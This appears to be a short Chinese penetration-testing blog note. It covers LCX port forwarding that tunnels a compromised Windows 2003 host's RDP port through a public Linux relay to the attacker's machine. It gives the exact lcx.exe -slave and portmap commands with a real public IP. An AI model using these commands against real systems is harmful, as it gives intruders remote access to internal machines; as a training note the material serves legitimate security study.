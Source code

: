 ```yaml
---
layout:     post
title:      LCX端口转发
subtitle:   win2003-公网linux-本地RDP连接
date:       2019-05-25
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - LCX
    - 端口转发
    - 内网渗透
---
```


## LCX端口转发

>LCX端口转发是在渗透过程中经常会用到的一种技术手段，使用方法也比较简单，但是今天用的时候突然忘了该怎么使。
>所以还是做个记录，方便以后查阅

### 实验环境
    win2003  （肉鸡）
    公网linux  （转发机器）
    本机   （攻击机）

### 过程记录


* 在肉鸡上传lcx.exe，并在lcx.exe目录下执行命令<br>
    `lcx.exe -slave 45.77.43.77 2222 192.168.17.128 3389`
>将本机的3389端口转发到45.77.43.77的2222端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215123.png)

* 在公网的linux机器上执行命令<br>
    `./portmap -m 2 -p1 2222 -p2 55`
>监听本地的2222端口，并将其数据转发到55端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215444.png)

* 在本机使用mstsc连接45.77.43.77的55端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215653.png)

### 连接成功

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215810.png)

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215820.png)


